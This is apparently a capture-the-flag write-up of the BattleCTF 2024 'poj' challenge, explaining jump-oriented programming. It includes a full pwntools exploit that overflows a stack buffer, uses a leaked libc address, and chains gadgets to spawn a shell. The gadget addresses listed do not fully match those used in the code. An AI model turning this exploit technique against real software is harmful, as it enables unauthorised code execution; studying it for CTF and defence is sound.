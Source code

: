 # Writeup: Jump-Oriented Programming (JOP) Challenge from BattleCTF 2024 Qualifier [Pwn]

## Challenge Overview

This challenge demonstrates the use of Jump-Oriented Programming (JOP), a technique in binary exploitation where code execution flow is hijacked using gadgets that control jump instructions. The goal is to exploit a vulnerable program to execute the system("/bin/sh") function, providing a shell.

---

## JOP Explained
Jump-Oriented Programming is an advanced exploitation technique often used in scenarios where traditional **Return-Oriented Programming (ROP)** is less feasible due to stack protection mechanisms like **Control Flow Enforcement Technology (CET)**. Instead of relying on `ret` instructions, JOP chains gadgets that end in jump or indirect call instructions (`jmp` or `call`). These gadgets manipulate CPU registers to control execution flow and achieve arbitrary code execution.

More about [Control Flow Enforcement Technology (CET)](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html)

### JOP Workflow
1. **Initial Control**:
   - Gain control over the Instruction Pointer (IP) by exploiting a vulnerability, such as a buffer overflow.
2. **Register Setup**:
   - Use gadgets to load necessary values into registers.
3. **Execution Redirection**:
   - Redirect control to a jump or call gadget, maintaining execution flow through chained gadgets.

### Benefits of JOP
- Bypasses stack protections like **Shadow Stack** or **CET**.
- Relies on `jmp` or `call` instructions rather than `ret`, reducing dependence on stack manipulation.

---

## Challenge Analysis

### Provided Binary

Challenge : [poj](https://github.com/0xbugpwn/AfricabattleCTF2024/tree/main/Qualifier/Pwn/poj)

#### Source Code
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  write(1, "Africa battle CTF 2024\n", 0x17uLL);
  printf("Write() address : %p\n", &write);
  return sub_115C();
}

ssize_t sub_115C()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 0x100uLL);
}
```

### Vulnerability Breakdown
1. **Buffer Overflow**:
   - The `read` function in `sub_115C` reads up to 256 bytes (`0x100`) into a 64-byte buffer (`buf`), causing a classic buffer overflow.
   - This allows overwriting the saved return address on the stack.
2. **Function Leak**:
   - The `main` function leaks the address of `write` from the Global Offset Table (GOT), providing a way to calculate the base address of the loaded `libc`.

---

## Exploitation Plan
The goal is to execute `system("/bin/sh")` using a JOP chain. 

### Steps:
1. **Leverage Address Leak**:
   - Extract the `write` function address from the GOT leak to calculate the base address of `libc`.
2. **Locate Gadgets**:
   - Identify JOP gadgets in `libc` to manipulate registers and control execution.
3. **Craft Payload**:
   - Use the buffer overflow to overwrite the saved return address with a JOP chain.
4. **Trigger Shell**:
   - Call `system("/bin/sh")` with properly set arguments.

---

## Gadgets

```asm
$ ROPgadget --binary libc.so.6

0x0000000000040647 : pop rax ; ret
...
...
0x000000000010b87c : pop rax ; pop rdi ; call rax
```

---
## Exploit Code
```python
from pwn import *

# Establish connection

sh = process('./player/poj')
if args.REMOTE:
	sh = remote("challenge.bugpwn.com",1003)


libc = ELF('./player/libc.so.6',checksec=False)

# Gadgets
pop_rax_ret = 0x0000000000040647		# Gadget to set RAX
pop_rdi_jmp_rax = 0x000000000002b003	# Gadget to set RDI and jump to RAX
  
# Parse leaked address
sh.recvline()
sh.recvuntil(b'Write() address : ')
libc.address = int(sh.recvuntil(b'\n'),16) - libc.sym['write']

# Payload construction
payload = b"A"*72								# Overflow buffer and overwrite saved RIP
payload += p64(libc.address + pop_rax_ret)		# Set RAX to point to system()
payload += p64(libc.sym['system'])				# Address of system()
payload += p64(libc.address + pop_rdi_jmp_rax)	# Set RDI and jump to RAX
payload += p64(next(libc.search(b'/bin/sh')))	# Argument: "/bin/sh"
 
# Send payload
sh.send(payload)
sh.interactive()
```

---

## Explanation of the Exploit

### Step 1: Extract libc Address
- The challenge provides the address of `write` in the GOT.
- Using this leak, the `libc` base address is calculated by subtracting the offset of `write` in `libc`.

### Step 2: Identify Gadgets
- **`pop_rax_ret`**: Used to load `rax` with the address of `system`.
- **`pop_rdi_jmp_rax`**: Loads the first argument (`rdi`) with the address of `/bin/sh` and jumps to the value in `rax`.

### Step 3: Create Payload
- The payload begins with 72 bytes of padding to overflow the buffer and overwrite the saved return address.
- Gadgets are chained to set up the necessary registers:
  - Load `rax` with the address of `system`.
  - Load `rdi` with the address of `/bin/sh`.
  - Jump to `system` using the `jmp rax` instruction in the second gadget.

### Step 4: Execute `system("/bin/sh")`
- When the JOP chain executes, the program spawns a shell by calling `system` with the argument `/bin/sh`.

---

## Exploit Output
Running the exploit results in:

![exploit](datas/exploit.png)


---

## Key Takeaways
1. **Jump-Oriented Programming**:
   - Demonstrates chaining gadgets ending in jump or call instructions instead of return instructions.
   - Provides an alternative to traditional ROP for bypassing modern defenses.

2. **Gadget Discovery**:
   - Exploitation relies on careful analysis of the binary and libraries to identify suitable gadgets.

3. **Importance of Address Leak**:
   - A single memory leak can compromise an entire binary, as seen with the `write` address.


This challenge highlights the sophistication of modern exploitation techniques like JOP and their reliance on precise control of execution flow.
